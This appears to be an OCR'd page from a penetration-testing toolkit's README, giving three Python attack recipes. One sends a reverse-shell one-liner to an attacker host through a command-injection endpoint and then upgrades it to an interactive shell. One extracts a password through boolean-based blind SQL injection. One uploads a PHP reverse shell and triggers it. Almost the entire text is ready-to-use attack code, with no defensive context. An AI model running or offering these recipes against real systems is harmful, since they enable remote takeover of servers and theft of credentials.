 ### RCE to Shell
```python
from utils.reverse_shells import python_oneliner
from utils.shell_catcher import auto_shell

# Generate payload
cmd = python_oneliner(lhost, 4444)

with auto_shell(4444) as catcher:
    # Trigger RCE
    requests.post(target, data={'cmd': cmd})

    # Get shell
    if catcher.shell_caught:
        catcher.stabilize()  # Upgrade to PTY
        catcher.interact()   # Full interactive shell!
```

### Blind SQLi Boolean-Based
```python
from utils.output import out
import string

def check(payload):
    r = requests.get(f"http://target?id=1' AND {payload}--")
    return "Welcome" in r.text

# Extract data
password = ""
for pos in range(1, 33):
    for char in string.ascii_letters + string.digits:
        if check(f"SUBSTRING(password,{pos},1)='{char}'"):
            password += char
            out.success(f"Password: {password}")
            break
```

### File Upload to RCE
```python
from utils.reverse_shells import php_shell
from utils.shell_catcher import quick_catch

# Generate PHP shell
shell_path = php_shell(lhost, 4444)

# Upload shell
files = {'upload': open(f'payloads/{shell_path}', 'rb')}
r = requests.post(f"{target}/upload", files=files)

# Trigger and catch
def trigger():
    requests.get(f"{target}/uploads/shell.php")

quick_catch(4444, trigger_func=trigger)
```
